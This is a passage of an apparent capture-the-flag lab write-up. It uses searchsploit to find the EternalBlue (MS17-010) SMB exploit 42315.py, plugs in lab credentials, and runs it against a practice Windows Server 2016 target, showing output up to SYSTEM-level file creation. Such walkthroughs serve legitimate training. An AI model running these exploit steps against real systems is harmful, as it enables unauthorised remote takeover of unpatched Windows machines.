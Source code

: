 Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                                            | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                        | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                                  | windows_x86-64/remote/42030.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

We choose 42315.py since we are facing a Windows 2016 Server.

```
# searchsploit -m 42315.py
```

For this exploit it is also required another file, we can grab it from:

https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py

We need to edit exploit with our previous credentials:

```
USERNAME = 'Bob'
PASSWORD = '!P@$$W0rD!123'
```

We try a first run:

```
root@kali:/opt/TryHackMe/relevant# ./42315.py 10.10.130.107
Target OS: Windows Server 2016 Standard Evaluation 14393
Using named pipe: samr
Target is 64 bit
Got frag size: 0x20
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xf90
CONNECTION: 0xffff9c8a6d0dc140
SESSION: 0xffff800dc4799210
FLINK: 0xffff800dc304f048
InParam: 0xffff800dcc1e316c
MID: 0x4103
unexpected alignment, diff: 0x-9194fb8
leak failed... try again
CONNECTION: 0xffff9c8a6d0dc140
SESSION: 0xffff800dc4799210
FLINK: 0xffff800dc304f048
InParam: 0xffff800dcc1dd16c
MID: 0x4103
unexpected alignment, diff: 0x-918efb8
leak failed... try again
CONNECTION: 0xffff9c8a6d0dc140
SESSION: 0xffff800dc4799210
FLINK: 0xffff800dcc1f5098
InParam: 0xffff800dcc1ef16c
MID: 0x4203
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done